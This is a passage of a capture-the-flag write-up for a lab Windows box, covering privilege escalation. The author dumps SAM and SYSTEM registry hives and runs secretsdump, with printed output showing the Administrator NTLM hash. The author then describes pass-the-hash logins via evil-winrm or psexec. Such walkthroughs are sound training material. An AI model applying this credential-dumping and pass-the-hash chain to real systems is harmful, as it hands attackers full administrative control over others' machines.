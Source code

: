 
We can now grab some registry information and download them to our attack box for further exploitation and enumeration. 

I'm able to grab the sam and system hive information on the target. It won't let me get the security hive information but I'm going to download the sam and system infomation to my attack box and run secretsdump against them.

### Privilege Esalation

Running secretsdump on my attack machine with the sam and system hive info gives me the Administrator hash. Now I can use the Administators hash with evil-winrm or psexec to get an Admin shell and have complete control over the box.

![smbclient](/Cicada/images/secrets.png) 

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

	[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
	[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
	Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
	[*] Cleaning up... 

![smbclient](/Cicada/images/root.png) 

And we now have root / administrator access on the box and can grab the root flag. This was a fun box. Until next time. Happy hacking ;) 
